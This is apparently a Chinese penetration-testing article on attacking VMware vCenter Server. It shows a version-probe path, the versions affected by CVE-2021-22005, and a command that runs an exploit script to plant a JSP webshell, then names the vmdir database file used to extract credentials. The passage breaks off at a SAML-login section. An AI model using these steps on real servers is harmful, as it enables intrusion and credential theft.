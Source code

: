 #  vCenter Server 常用攻击手法

原创 ChenZIDu  [ 雷神众测 ](javascript:void\(0\);)

**雷神众测** ![]()

微信号 bounty_team

功能介绍 雷神众测，专注于渗透测试技术及全球最新网络攻击技术的分析。

____

___发表于_

收录于合集

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221207152827.png)

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，雷神众测及文章作者不为此承担任何责任。

雷神众测拥有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经雷神众测允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。

  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221207152841.png)

查看版本信息

    
    
    /sdk/vimServiceVersions.xml

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221207152841.png)

cve-2021-22005

  

 **1\. 影响范围：**

  * vCenter Server 7.0 < 7.0 U2c build-18356314

  * vCenter Server 6.7 < 6.7 U3o build-18485166

  * Cloud Foundation (vCenter Server) 4.x < KB85718 (4.3)  

  * Cloud Foundation (vCenter Server) 3.x < KB85719 (3.10.2.2)  

  * 6.7 vCenters Windows版本不受影响

    
    
    python3 .\exp.py -t https://192.168.52.152 -s api_all_jdk.jsp

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221207152844.png)

连接木马，默认路径/storage/db/vmware-vmdir/data.mdb

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221207152845.png)

 **2.vcenter_saml_login**

